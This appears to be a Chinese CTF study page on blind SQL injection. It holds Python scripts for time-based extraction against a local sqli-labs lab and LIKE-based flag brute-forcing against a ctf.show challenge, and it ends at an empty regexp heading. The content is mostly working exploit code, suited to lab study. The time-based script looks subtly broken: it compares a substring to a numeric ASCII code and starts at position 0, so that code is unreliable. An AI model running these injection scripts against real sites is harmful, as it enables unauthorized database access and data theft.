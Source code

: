 #### 时间盲注

web 214 217 有详细脚本

```python
import requests
#用这里的语句分别替换id中的内容即可爆库、表、字段
#select group_concat(SCHEMA_NAME) from information_schema.SCHEMATA
#select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA = 'xxx'
#select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_SCHEMA = 'xxx' and TABLE_NAME = 'xxx'
dic='0123456789abcdefghijklmnopqrstuvwxyz,'
url='http://127.0.0.1/sqli-labs/Less-8/?id=1\' and '
string=''
for i in range(100):
    for j in dic:
        id="if((substr((select group_concat(schema_name) from information_schema.schemata limit 0,1),{0},1)={1}),sleep(3),0)--+".format(str(i),ascii(j))
        #print(id)
        url_get=(url+id)
        #print(url_get)
        r=requests.get(url_get)
        sec=r.elapsed.seconds
        if sec > 2:
            string+=j
            print(string)
            break
print(string)
```

#### like盲注

```python
import requests

url = "http://adb1f64a-e1fd-4640-aeb5-b49da1a62390.challenge.ctf.show:8080/select-waf.php"
str = "0123456789abcdefghijklmnopqrstuvwxyz{}-"
flag = "ctfshow"
for i in range(0,666):
    for j in str:
        data = {"tableName":"(ctfshow_user)where(pass)like'{0}%'".format(flag+j)}
        res = requests.post(url=url, data=data)
        if "$user_count = 1" in res.text:
            flag += j
            print(flag)
            if j=="}":
                exit()
            break

```

#### regexp盲注
